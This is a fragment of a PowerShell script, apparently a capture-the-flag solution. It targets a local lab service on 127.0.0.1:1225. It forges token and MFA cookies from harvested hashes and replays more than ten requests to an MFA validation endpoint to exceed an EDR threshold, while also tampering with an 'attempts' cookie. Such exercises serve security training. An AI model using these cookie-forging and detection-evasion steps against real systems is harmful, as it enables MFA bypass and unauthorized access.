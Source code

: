         # send a request with a cookie per hash and use logic used for the silver achievement to load additional cookie data
        $response = @()
        foreach ($hash in $lines_sha256) {
            Write-Output "--------------------------------------------
            Set 'token' cookie for md5 hash
            --------------------------------------------"
            $session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
            $cookie = New-Object System.Net.Cookie
            $cookie.Name = "token"
            $cookie.Value = $lines_md5[$lines_sha256.IndexOf($hash)]
            $cookie.Domain = "127.0.0.1"
            $session.Cookies.Add($cookie);

            Write-Output "--------------------------------------------
            Make request to /tokens/<md5> endpoint
            --------------------------------------------"
            $url_token = "http://127.0.0.1:1225/tokens/" + $hash.Hash
            $page_token = Invoke-WebRequest $url_token -Authentication basic -Credential $Credential -AllowUnencryptedAuthentication -WebSession $session
            $page_token.RawContent

            Write-Output "--------------------------------------------
            Set MFA cookies based on content just collected
            --------------------------------------------"
            $cookie_mfa = New-Object System.Net.Cookie
            $cookie_mfa.Name = "mfa_code"
            $cookie_mfa.Value = $lines_md5[$lines_sha256.IndexOf($hash)]
            $cookie_mfa.Domain = "127.0.0.1"
            $cookie = New-Object System.Net.Cookie
            $cookie.Name = "mfa_token"
            $cookie.Value = $page_token.Content.split("'")[1]
            $cookie.Domain = "127.0.0.1"

            $session.Cookies.Add($cookie_mfa);
            $session.Cookies.Add($cookie);

            # make more than 10 requests to mfa validation endpoint to go over EDR threshold, and save responses
            $url = "http://127.0.0.1:1225/mfa_validate/" + $hash.Hash
            1..11 | % {
                Write-Output "--------------------------------------------
                Make request to /mfa_validate/<sha256> endpoint
                --------------------------------------------"
                $page_mfa = Invoke-WebRequest $url -Authentication basic -Credential $Credential -AllowUnencryptedAuthentication -WebSession $session
                $cookie_attempts = New-Object System.Net.Cookie
                $cookie_attempts.Name = "attempts"
                $cookie_attempts.Value = $page_mfa.Headers['Set-Cookie'].substring(9,14)
                $cookie_attempts.Domain = "127.0.0.1"
                $session.Cookies.Add($cookie_attempts);
            }
            $response += $page_mfa.Content
        }
